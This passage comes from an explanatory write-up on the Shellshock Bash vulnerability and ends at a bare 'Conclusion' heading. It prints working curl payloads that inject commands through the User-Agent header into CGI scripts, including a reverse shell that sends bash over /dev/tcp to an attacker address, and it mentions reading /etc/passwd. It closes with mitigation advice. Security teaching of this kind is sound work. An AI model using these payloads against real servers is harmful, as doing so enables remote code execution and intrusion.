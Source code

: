 **Technical Details and Exploitation:**

The core of the Shellshock vulnerability lies in the parsing of environment variables. A malicious payload is typically injected into an HTTP header (like `User-Agent`, `Referer`, or `Cookie`) when a web server uses CGI scripts that invoke Bash.

**Example Exploit (Conceptual `curl` request):**

Assume a vulnerable CGI script (e.g., `cgi-bin/test.cgi`) exists on the web server.

```bash
# Example: Execute `id` command and echo the output
# The payload is injected into the User-Agent header.
# The `() { :; };` part defines an empty function, which Bash processes.
# The `echo "Content-type: text/plain"; echo; id` part is the injected command.
curl -H "User-Agent: () { :; }; echo \"Content-type: text/plain\"; echo; id" \
"http://<target_ip>/cgi-bin/test.cgi"

# Example: Spawning a reverse shell (replace with your IP and port)
# This payload attempts to connect back to the attacker's machine.
curl -H "User-Agent: () { :; }; echo \"Content-type: text/plain\"; echo; bash -i >& /dev/tcp/<attacker_ip>/<attacker_port> 0>&1" \
"http://<target_ip>/cgi-bin/test.cgi"
```

**Explanation of the payload:**

*   `() { :; };`: This is a valid Bash function definition. Vulnerable versions of Bash incorrectly continue parsing and executing commands after this definition.
*   `echo "Content-type: text/plain"; echo;`: These lines are necessary for the CGI script to return a valid HTTP response, preventing errors and allowing the output of the injected command to be seen.
*   `id`: The arbitrary command to be executed (e.g., `id`, `ls -la`, `cat /etc/passwd`).
*   `bash -i >& /dev/tcp/<attacker_ip>/<attacker_port> 0>&1`: A common reverse shell payload that connects back to the attacker's machine.

**Mitigation:** The most critical mitigation for Shellshock is to update Bash to a patched version. Operating system vendors quickly released patches to address the vulnerability. Additionally, it is important to:

*   **Input Validation:** Implement strict input validation for all environment variables and user-supplied input that might be processed by Bash.
*   **Principle of Least Privilege:** Run web servers and other services with the minimum necessary privileges.
*   **Disable Unnecessary CGI Scripts:** Disable or remove any CGI scripts that are not essential.
*   **Web Application Firewall (WAF):** Deploy a WAF to detect and block Shellshock exploitation attempts.
*   **Regular Patching:** Maintain a rigorous patching schedule for all software components, especially operating system components.

---



## Conclusion
